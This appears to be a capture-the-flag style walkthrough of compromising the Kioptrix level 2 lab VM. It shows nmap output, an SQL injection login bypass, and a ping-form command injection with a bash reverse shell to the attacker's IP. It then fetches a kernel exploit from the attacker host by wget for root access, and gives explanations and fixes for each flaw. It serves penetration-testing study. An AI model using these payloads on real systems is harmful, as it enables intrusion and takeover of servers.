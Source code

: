 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed May 25 22:52:16 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.134
Nmap scan report for 192.168.65.134
Host is up (0.0021s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-05-25T23:43:02+00:00; -3h09m37s from scanner time.
630/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4C:24:00 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -3h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   2.11 ms 192.168.65.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 25 22:52:49 2022 -- 1 IP address (1 host up) scanned in 33.84 seconds
```
</br>

Port 80, Website Main page: </br>
![main_page](images/kioptrixv2/main_page.png) </br>
This admin panel was vulnerable to SQL Injection, I was able to get inside using this payload: </br>
```' or '1'='1``` </br>

![index_page](images/kioptrixv2/index_page.png) </br>
The web server was asking for an address to ping, and this ping utility script was vulnerable to code injection: </br>
![code_injection](images/kioptrixv2/code_injection.png) </br>
To insert an additional command to the ping utility I did this: ```127.0.0.1 && whoami``` </br>
To gain a reverse shell I did this: </br>
Kali Linux: ```nc -nlvp 1234``` </br>
Web Server: ```127.0.0.1 && bash -i >& /dev/tcp/192.168.65.128/1234 0>&1``` </br>
**Vulnerability Explanation:** </br>
```OS Command Injection:``` </br>
OS Command Injection (also known as shell injection) is a web security vulnerability that allows an
attacker to execute an arbitrary operating system (OS) commands on the server that is running an
application, and typically fully compromise the application and all its data. </br>
```SQL Injection:``` </br>
SQL injection occurs when specially crafted user input is processed by the receiving program in a way
that allows the input to exit a data context and enter a command context. A successful SQL injection
exploit can read sensitive data from the database,modify database data,execute administration operations
on the database,recover the content of a given file present on the DBMS file system and in some cases
issue commands to the operating system. </br>
**Vulnerability Fix:** </br>
```OS Command Injection:``` </br>
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS
commands from application-layer code. In virtually every case, alternate ways of implementing the
required functionality are using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input
validation must be performed. </br>
```SQL Injection:``` </br>
Most instances of SQL injection can be prevented by using parameterized queries (also known as
prepared statements) instead of string concatenation within the query. </br> </br>
**Initial Shell Screenshot:** </br>
![shell_poc](images/kioptrixv2/shell_poc.png) </br>
# Privilege Escalation:
I checked the kernel version of the machine with the command: ```uname -a``` </br>
![uname_cmd](images/kioptrixv2/uname_cmd.png) </br>
I found an exploit in [Exploit-DB](https://www.exploit-db.com/exploits/9542) </br>
**File Transferring:** </br>
I opened an HTTP server on my Kali machine with this command:
```python -m http.server 80``` </br>
Since wget command was installed on the machine, I downloaded the exploit to the /tmp folder: </br>
```wget 192.168.65.128/kernel.c``` </br>
Compiled it: </br>
```gcc kernel.c -o kernel``` </br>
Gave it Execution Permissions: </br>
```Chmod +x kernel``` </br>
**Vulnerability Exploited:** CentOs Kernel 2.6 Exploit. </br>
**Vulnerability Explanation:** The udp_sendmsg function in the UDP implementation in (1) net/ipv4/udp.c
and (2) net/ipv6/udp.c in the Linux kernel before 2.6.19 allows local users to gain privileges or cause a
denial of service (NULL pointer dereference and system crash) via vectors involving the MSG_MORE
flag and a UDP socket. </br> </br>
**Proof Of Screenshot:** </br>
![pe_poc](images/kioptrixv2/pe_poc.png)


